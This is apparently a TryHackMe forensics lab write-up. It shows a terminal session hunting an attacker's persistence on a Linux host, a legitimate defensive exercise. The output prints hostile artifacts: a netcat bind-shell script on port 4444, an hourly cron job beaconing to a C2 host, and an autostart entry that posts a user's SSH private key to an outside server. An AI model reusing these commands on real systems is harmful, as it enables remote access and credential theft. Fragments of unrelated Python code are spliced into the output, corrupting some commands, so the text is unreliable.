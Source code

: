 ## Objetivo
Perform thorough process and application analysis to identify an attacker's persistence methods.
## Solución
investigator@tryhackme:~$ export PATH=/mnt/usb/bin:/mnt/usb/sbin
investigator@tryhackme:~$ export LD_LIBRARY_PATH=/mnt/usb/lib:/mnt
/usb/lib64
investigator@tryhackme:~$ check-env
THM{8c860435f00c943c21f6b6e0f1b2f854}
investigator@tryhackme:~$ 
investigator@tryhackme:~$ cat /home/janice/abzkd83o4jakxld.sh 
#!/bin/bash

# Set the path to the lock file
LOCKFILE="/tmp/abzkd83o4jakxld.lock"

# Check if lock file exists
if [ -e "$LOCKFILE" ]; then
    echo "Script is already running. Exiting."
    exit 1
fi

# Create lock file
touch "$LOCKFILE"

# Main command
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 
0.0.0.0 4444 > /tmp/f

# Remove lock file
rm -f "$LOCKFILE"
investigator@tryhackme:~$ 
investigator@tryhackme:~$ sudo systemctl list-units --all --type=se
rvice
[sudo] password for investigator: 
  UNIT                                           LOAD      ACTIVE >
  accounts-daemon.service                        loaded    active >
  acpid.service                                  loaded    active >
  alsa-restore.service                           loaded    inactiv>
  alsa-state.service                             loaded    inactiv>
  anacron.service                                loaded    inactiv>
  apparmor.service                               loaded    active >
  apport-autoreport.service                      loaded    inactiv>
  apport.service                                 loaded    active >
  apt-daily-upgrade.service                      loaded    inactiv>
  apt-daily.service                              loaded    inactiv>
  atd.service                                    loaded    active >
● auditd.service                                 not-found inactiv>
  avahi-daemon.service                           loaded    active >
  b4ckd00rftw.service                            loaded    active >
  B64.service                                    loaded    active >
  badr.service                                   loaded    active >
  blk-availability.service                       loaded    active >
  blueman-mechanism.service                      loaded    inactiv>
  cloud-config.service                           loaded    active >
  cloud-final.service                            loaded    active >
  cloud-init-hotplugd.service                    loaded    inactiv>
  cloud-init-local.service                       loaded    active >
  cloud-init.service                             loaded    active >
● connman.service                                not-found inactiv>
● console-screen.service                         not-found inactiv>
  console-setup.service                          loaded    active >
  cron.service                                   loaded    active >
  cups-browsed.service                           loaded    active >
  cups.service                                   loaded    active >
  dbus.service                                   loaded    active >
  dm-event.service                               loaded    inactiv>
  dmesg.service                                  loaded    inactiv>
  e2scrub_all.service                            loaded    inactiv>
  e2scrub_reap.service                           loaded    inactiv>
lines 1-35
investigator@tryhackme:~$ ls -la
total 168
drwxr-xr-x  5 investigator investigator   4096 Jun  6 09:58 .
drwxr-xr-x 11 root         root           4096 Mar 13  2024 ..
-rw-------  1 investigator investigator     55 Jun  6 09:58 .Xautho
rity
-rw-------  1 investigator investigator   3775 Mar 13  2024 .bash_h
istory
-rw-r--r--  1 investigator investigator    220 Mar 12  2024 .bash_l
ogout
-rw-r--r--  1 investigator investigator   3771 Mar 12  2024 .bashrc
drwxrwxr-x  3 investigator investigator   4096 Jun  6 09:58 .cache
drwx------  4 investigator investigator   4096 Nov  7 19:02 .config
drwx------  3 investigator investigator   4096 Mar 13  2024 .local
-rw-r--r--  1 investigator investigator    807 Mar 12  2024 .profil
e
-rw-r--r--  1 investigator investigator      0 Mar 12  2024 .sudo_a
s_admin_successful
-rw-rw-r--  1 investigator investigator    222 Mar 13  2024 .wget-h
sts
-rw-rw-r--  1 investigator investigator 126903 Mar 13  2024 dumpzil
la.py
investigator@tryhackme:~$ 
investigator@tryhackme:~$ cat /etc/cron.hourly/beacon
#!/bin/bash

curl http://c2.intelligent-software.thm:8310/beacon
investigator@tryhackme:~$ cd /home/janice/.config/autostart/
investigator@tryhackme:/home/janice/.config/autostart$ ls -la
total 12ng "+filename : mime.from_file(file).decode('unicode-escape')}
drwxrwxr-x 2 janice janice 4096 Mar 13  2024 .
drwxrwxr-x 3 janice janice 4096 Mar 13  2024 ..
-rw-rw-r-- 1 janice janice  189 Mar 13  2024 keygrabber.desktop
investigator@tryhackme:/home/janice/.config/autostart$ cat keygrab
ber.desktop 
[Desktop Entry]
Type=Application
Name=Standard Desktop Configuration (DO NOT MODIFY)
Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' httpte from "+directory)
://aabab.best-it-services.thm/id_rsa"
investigator@tryhackme:/home/janice/.config/autostart$ 
investigator@tryhackme:/home/janice/.config/autostart$ ls -a /homee_ext_extraction_dict
/*/.config/autostart
/home/eduardo/.config/autostart:#################################################
.  ..  dev.desktop                                                #
#################################################
/home/franklin/.config/autostart:
.  ..  netwk.desktop

/home/janice/.config/autostart:
.  ..  keygrabber.desktop
investigator@tryhackme:/home/janice/.config/autostart$ ls -a /home
/*/.config/autostart/netwk.desktop]
/home/franklin/.config/autostart/netwk.desktop
investigator@tryhackme:/home/janice/.config/autostart$ 
       if dir.find("Roaming") > -1:
